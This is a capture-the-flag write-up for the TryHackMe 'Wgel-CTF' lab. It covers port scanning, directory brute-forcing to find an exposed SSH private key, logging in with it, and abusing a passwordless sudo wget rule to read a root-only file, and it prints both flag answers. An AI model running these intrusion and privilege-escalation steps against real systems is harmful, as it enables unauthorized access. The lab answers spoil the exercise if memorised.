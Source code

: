 # Wgel-CTF
https://tryhackme.com/room/wgelctf

**Use nmap to scan for open ports: sudo nmap 10.10.252.80**  

	PORT   STATE SERVICE

	22/tcp open  ssh

	80/tcp open  http


Head to the website and inspect to get a clue:

	 <!-- Jessie don't forget to udate the webiste -->
	*jessie could be a potential name for the ssh server*

**Usedirb http://10.10.252.80 to find directories**
	DIRECTORY: http://10.10.252.80/sitemap/.ssh/ 
	* *This directory leads to a RSA key* *

Copy th RSA key and create a file

chmod 600 for file

ssh -i [rsa file] jessie@10.10.252.80 

Access is gained!

cd to Documents and cat user_flag.txt to get the first flag

~~057c67131c3d5e42dd5cd3075b198ff6~~ 

**sudo -l to see what permissions are allowed:**

	User jessie may run the following commands on CorpOne:

    (ALL : ALL) ALL

    (root) NOPASSWD: /usr/bin/wget


**Head to https://gtfobins.github.io/gtfobins/wget/**

Let's use the file read code:

	LFILE=/root/root_flag.txt *since user-flag.txt*

	wget -i $LFILE
	
Once excutued it will show a flag:

~~b1b968b37519ad1daa6408188649263d~~ 
